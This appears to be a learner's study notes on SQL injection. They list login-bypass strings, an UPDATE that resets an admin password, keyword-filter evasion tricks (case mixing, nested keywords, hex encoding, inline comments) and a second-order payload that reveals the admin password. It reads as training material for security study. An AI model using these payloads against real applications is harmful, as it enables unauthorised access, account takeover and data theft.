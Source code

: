 # Injecting Code

## Into Interpreted Language
Attackers' input gets passed directly to the interpreter and runs as if it’s legit code.  
- Depends upon the language targeted.  
- Programming technique employed by the application developer.  
- Supplying unexpected syntax may cause read errors → check for indication of code injection vulnerability.  

## Injecting Into SQL
- Databases are used by almost all web applications to store data like user details, prices, account statements, etc.  
- By editing certain commands or statements and using vulnerable web parts, we can read, update, add, and delete data in the database.  

## Retrieving Hidden Data
Check if SQL injection is possible or not:  
- Try single quotation or double quotation as input.  
- Try `--` → observe the response.  
- Try `%` → if the server is interacting with the back-end database, submitting `%` may return some table or data.  
- Try `' OR 1=1--` → will bypass any true statement check, as `1=1` is always true.  
- Try supplying a mathematical expression that is equivalent to the original numerical value.  

**Useful notes:**  
- Use ASCII commands and quotes.  
- Remember:  
  - spaces ⇔ `+` or `%20`  
  - `+` ⇔ `%2b`  
  - `;` ⇔ `%3b`  

## Bypassing a Login
Every login page is connected to the backend most of the time, where it checks for username and password. If they match, it lets you log in.  

- We can bypass this login check if we know a username.  
- Example:  
```
SELECT * FROM USERS WHERE USERNAME = 'ADMIN'--' AND PASSWORD = 'FOO'
```
This is equivalent to:  
```
SELECT * FROM USERS WHERE USERNAME = 'ADMIN'
```
⇒ This way, the password check has been bypassed altogether.  

- If you don’t know a username, you can use:  
```
USERNAME = ' OR 1=1--
```
- Since `1=1` is always true, this can bypass the check.  

## Subverting Application Logic
- Example: username = `wiener` and password = `bluecheese`.  
- This can be bypassed using:  
  - If you have a username like `administrator`, try:  
    ```
    administrator'--
    ```
  - If you don’t have a username, then try:  
    ```
    username = admin
    password = ' OR 1=1--
    ```  

## Injecting into Different Statement Types
The most common types of SQL statements are:  

- **SELECT**  
- **INSERT**  
  - Use this for finding table column size and type, e.g.:  
    ```
    foo')--
    foo',1)--
    foo',1,1)--
    ```  
- **UPDATE**  
  - Example of bypassing password check and resetting the password:  
    ```
    update users set password='newsecret' where user='admin' or 1=1
    ```  
- **DELETE**  
- **The UNION operator**  
- **Fingerprinting the database**  
- **Extracting useful data**  

**Notes:**  
- If you don’t know the data type of columns in a table, you can always use:  
  ```
  SELECT NULL
  ```
- Use trial-and-error to find table names, column types, and column names.  

### Techniques
- If the `SELECT` statement is blocked or removed, try:  
  ```
  SeLeCt
  SELSELECTECT
  %53%54%4C%45%43%54
  ```
- In MySQL, comments can be inserted within keywords to bypass validation, for example:  
  ```
  SEL /*FOO*/ECT username,password FR/*foo*/OM users
  ```
- If the defense filter escapes or doubles up a single quotation mark, you can bypass it with escape quotations. Example:  
  ```
  aaaa'
  ```

## Second Order SQL Injection
- An attacker can register a username containing crafted input and then attempt to change their password.  
- Example:  
  ```
  'or 1 in (select password from users where username='admin')--
  ```
- When the attacker tries to change their password, the injected query will be executed → Revealing the admin password.  

**Note:** Not every attack is about stealing information — some just want to destroy your system/device.

remeber to go further today]]
